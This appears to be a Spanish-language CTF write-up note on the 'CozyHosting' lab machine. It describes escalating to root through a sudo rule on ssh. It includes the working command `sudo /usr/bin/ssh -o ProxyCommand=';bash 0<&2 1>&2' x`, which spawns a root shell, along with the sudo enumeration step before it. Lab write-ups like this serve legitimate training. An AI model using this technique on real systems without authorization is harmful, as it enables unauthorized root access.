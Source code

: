 #abusobinariossh

------

```shell
sudo -l
```

![[CozyHosting33.png]]
Y nos muestra que podemos ejecutar el binario */usr/bin/ssh* como si fueramos *root*
Vamos a usar [[gtfsearch]] con el comando `gtfsearch ssh -t sudo`. Y nos va a mostrar que comando tenemos que usar para escalar privilegios
![[CozyHosting32.png]]
Utilizamos el comando, pero cambiando, para que nos de una bash, y poniendo la ruta absoluta del binario `sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x`
Y listo ya somos root y podemos catear las flags
![[CozyHosting34.png]]
